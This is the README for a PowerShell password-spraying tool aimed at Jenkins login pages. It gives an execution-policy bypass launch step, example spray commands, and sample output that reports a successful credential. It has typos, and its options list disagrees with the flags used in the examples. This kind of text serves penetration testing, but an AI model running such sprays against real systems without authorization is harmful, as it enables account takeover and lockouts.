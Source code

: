 # JenkinsPasswordSpray
JenkinsPasswordSpray is a tool witten i PowerShell to perform password spraying attacks against users of a [Jenkins](https://jenkins.io/) instance. Be careful not to lock out accounts!

## Quick Start Guide
Open a PowerShell terminal from the Windows command line with `powershell.exe -exec bypass` and type `Import-Module JenkinsPasswordSpray.ps1`.

The required options are `URL`, `Username`/`UsernameFile` and `Password`/`PasswordFile`.

The following command will spray against a list of users and attempt to authenticate using each username and a password from the specified list. If a valid login is found, the script will stop unless `-ContinueOnSuccess` is set to `$True`. A confirmation will be prompted unless the `-Force` switch is set. The results of the spray will be output to a file called `sprayed-jenkins.txt`

The script will also try to help you clean up your URL if it's invalid or contains trailing elements like `/login`, as this will not make the URL valid for password spraying. But because your target Jenkins instance might be located in a subdirectory, this feature asks for confirmation before trimming the URL.

Type `Get-Help Invoke-JenkinsPasswordSpra` to see the different options.

### Example command

```PowerShell
Invoke-JenkinsPasswordSpray -URL http://jenkins:8080 -UsernameFile .\users.txt -PasswordFile .\pws.txt -ContinueOnSuccesss $true -Force -Outfile .\sprayed-jenkins.txt
```

### Example command with output

```
PS C:\Windows\temp> Invoke-JenkinsPasswordSpray -URL http://10.0.0.7:8080/login/notvalid -Username jenkinsadmin -Password rush2112 -ContinueOnSuccesss $true -Force -OutFile jenkins-sprayed.txt

[-] Detected trailing elements /login/notvalid in provided URL http://10.0.0.7:8080/login/notvalid.
[-] Will now try to remove it for you.
Do you want to use the URL http://10.0.0.7:8080 instead?
[Y] Yes  [N] No  [?] Help (default is "Y"):
[+] Replacing URL: http://10.0.0.7:8080/login/notvalid
[+] Will use this URL: http://10.0.0.7:8080
[+] Testing if URL is valid
[+] Provided URL: http://10.0.0.7:8080 returns 200 OK.

[+] Start password spraying the URL http://10.0.0.7:8080 with 1 user(s) and 1 password(s). Total request count is 1. Current time is 15:21
[+] Writing successful logins to jenkins-sprayed.txt
[Attempt 1 / 1] - Spraying username:jenkinsadmin with password:rush2112
[+] SUCCESS! Username:jenkinsadmin Password:rush2112

[+] Password spraying is complete
[*] Any passwords that were successfully sprayed have been written to jenkins-sprayed.txt
```




### Invoke-JenkinsPasswordSpray Options

```
UsernameList      - A list of usernames to spray-
Username          - A single username to spray.
Password          - A single password to spray for each specified username.
PasswordList      - A list of passwords, one per line, to use for the password spray.
ContinueOnSuccess - Continue spraying, even if a valid account is found.
Force             - Forces the spray to continue without prompting for confirmation.
OutFile           - A file to output the results to.
```

The script will also try to help you clean up your URL if it's invalid or contains trailing elements, as this is not normal or desired for Jenkins instances unless located in a subdirectory.